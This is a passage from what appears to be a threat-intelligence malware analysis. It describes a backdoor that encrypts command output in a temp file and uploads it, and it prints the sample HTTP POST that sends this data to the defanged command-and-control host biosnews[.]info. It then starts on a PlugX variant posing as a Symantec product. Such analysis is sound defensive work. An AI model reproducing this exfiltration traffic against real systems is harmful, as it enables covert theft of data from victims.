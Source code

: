 


1

[command];\n





The results of this -execution are stored in a temporary text file in the %TEMP% directory. These results are encrypted using the same technique mentioned previously. An example upload of these results can be seen below:





POST /index.php?fn=s2 HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Content-Type: multipart/form-data; boundary=---------------------------d5340oqbasdfaa
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;
Trident/6.0)
Host: biosnews[.]info
Content-Length: 1609
Connection: Keep-Alive
 
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="file";
filename="C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\.txt"
Content-Type: application/octet-stream
 
[BINARY_DATA]
 
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="path"
 
70efdf2ec9b086079795c442636b55fb
-----------------------------d5340oqbasdfaa
Content-Disposition: form-data; name="submit"
 
Submit
-----------------------------d5340oqbasdfaa—




12345678910111213141516171819202122232425

POST /index.php?fn=s2 HTTP/1.1Accept: text/html, application/xhtml+xml, */*Content-Type: multipart/form-data; boundary=---------------------------d5340oqbasdfaaUser-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;Trident/6.0)Host: biosnews[.]infoContent-Length: 1609Connection: Keep-Alive -----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="file";filename="C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\.txt"Content-Type: application/octet-stream [BINARY_DATA] -----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="path" 70efdf2ec9b086079795c442636b55fb-----------------------------d5340oqbasdfaaContent-Disposition: form-data; name="submit" Submit-----------------------------d5340oqbasdfaa—





PlugX
PlugX is a backdoor that is often used by actors in targeted attacks. This version of PlugX attempts to disguise itself as a Symantec product. The following icon is present in this sample:
